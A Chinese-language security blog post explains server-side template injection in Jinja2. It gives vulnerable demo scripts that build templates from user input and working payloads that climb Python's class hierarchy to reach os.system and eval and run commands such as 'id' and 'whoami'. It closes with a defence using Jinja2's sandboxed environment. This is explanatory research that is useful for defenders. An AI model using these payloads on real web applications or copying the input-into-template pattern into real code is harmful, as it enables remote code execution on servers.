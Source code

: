 ```yaml
---
layout: post
title: "利用 Python 特性在 Jinja2 模板中执行任意代码"
tags: [web, security, ssti]
---
```


本文源于老外 [@nvisium](https://twitter.com/nvisium) 在其博客发表的博文 [《Injecting Flask》](https://nvisium.com/blog/2015/12/07/injecting-flask/)，在原文中作者讲解了 Python 模板引擎 [Jinja2](http://jinja.pocoo.org/) 在服务端模板注入 (SSTI) 中的具体利用方法，在能够控制模板内容时利用环境变量中已注册的用户自定义函数进行恶意调用或利用渲染进行 XSS 等。

对于 Jinja2 模板引擎是否能够在 SSTI 的情况下直接执行命令原文并没有做出说明，并且在 Jinja2 官方文档中也有说明，模板中并不能够直接执行任意 Python 代码，这样看来在 Jinja2 中直接控制模板内容来执行 Python 代码或者命令似乎不太可能。

### 一、模板中复杂的代码执行方式

最近在进行项目开发时无意中注意到 Jinja2 模板中可以访问一些 Python 内置变量，如 `[]` `{}` 等，并且能够使用 Python 变量类型中的一些函数，示例代码一如下：

```python
# coding: utf-8
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
print template.render()
```

为了方便演示，这里直接将命令参数输入拼接为模板内容的一部分并进行渲染输出，这里我们直接输入 `{% raw %}{{ 'abcd' }}{% endraw %}` 使模板直接渲染字符串变量：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/1.png)

当然上面说了可以在模板中直接调用变量实例的函数，如字符串变量中的 `upper()` 函数将其字符串转换为全大写形式：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/2.png)

那么如何在 Jinja2 的模板中执行 Python 代码呢？如官方的说法是需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块 `os`，即需要在模板环境中对其注册，示例代码二如下：

```python
# coding: utf-8
import os
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
template.globals['os'] = os

print template.render()
```

执行代码，并传入参数 `{% raw %}{{ os.popen('echo Hello RCE').read() }}{% endraw %}`，因为在模板环境中已经注册了 `os` 变量为 Python `os` 模块，所以可以直接调用模块函数来执行系统命令，这里执行额系统命令为 `echo Hello Command Exection`：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/3.png)

如果使用示例代码一来执行，会得到 `os` 未定义的异常错误：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/4.png)

### 二、利用 Python 特性直接执行任意代码

那么，如何在未注册 `os` 模块的情况下在模板中调用 `popen()` 函数执行系统命令呢？前面已经说了，在 Jinja2 中模板能够访问 Python 中的内置变量并且可以调用对应变量类型下的方法，这一特点让我联想到了常见的 Python 沙盒环境逃逸方法，如 2014CSAW-CTF 中的一道 Python 沙盒绕过题目，环境代码如下：

```python
#!/usr/bin/env python 
from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:  
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

（利用 Python 特性绕过沙盒限制的详细讲解请参考 [Writeup](https://hexplo.it/escaping-the-csawctf-python-sandbox/)），这里给出笔者改进后的 PoC：

```python
[c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')
```

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/5.png)

当然通过这种方式不仅仅能够通过 `os` 模块来执行系统命令，还能进行文件读写等操作，具体的代码请自行构造。

回到如何在 Jinja2 模板中直接执行代码的问题上，因为模板中能够访问 Python 内置的变量和变量方法，并且还能通过 Jinja2 的模板语法去遍历变量，因此可以构造出如下模板 Payload 来达到和上面 PoC 一样的效果：

```
{% raw %}
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
{% endraw %}
```

使用该 Payload 作为示例代码二的执行参数，最终会执行系统命令 `id`：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/6.png)

当然除了遍历找到 `os` 模块外，还能直接找回 `eval` 函数并进行调用，这样就能够调用复杂的 Python 代码。

原始的 Python PoC 代码如下：

```python
[a for a in [b for b in [c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals.values() if type(b) == dict] if 'eval' in a.keys()][0]['eval']('__import__("os").popen("whoami").read()')
```

在 Jinja2 中模板 Payload 如下：

```
{% raw %}
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.func_globals.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
{% endraw %}
```

使用该 Payload 作为示例代码二的执行参数（注意引号转义），成功执行会使用 `eval()` 函数动态载入 `os` 模块并执行命令：

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/7.png)

### 三、利用途径和防御方法

SSTI（服务端模板注入）。通过 SSTI 控制 Web 应用渲染模板（基于 Jinja2）内容，可以轻易的进行远程代码（命令）执行。当然了，一切的前提都是模板内容可控，虽然这种场景并不常见，但难免会有程序员疏忽会有特殊的需求会让用户控制模板的一些内容。

在 Jinja2 模板中防止利用 Python 特性执行任意代码，可以使用 Jinja2 自带的沙盒环境 `jinja2.sandbox.SandboxedEnvironment`，Jinja2 默认沙盒环境在解析模板内容时会检查所操作的变量属性，对于未注册的变量属性访问都会抛出错误。

![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/8.png)

### 参考

* [https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
* [https://nvisium.com/blog/2015/12/07/injecting-flask/](https://nvisium.com/blog/2015/12/07/injecting-flask/)
* [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)
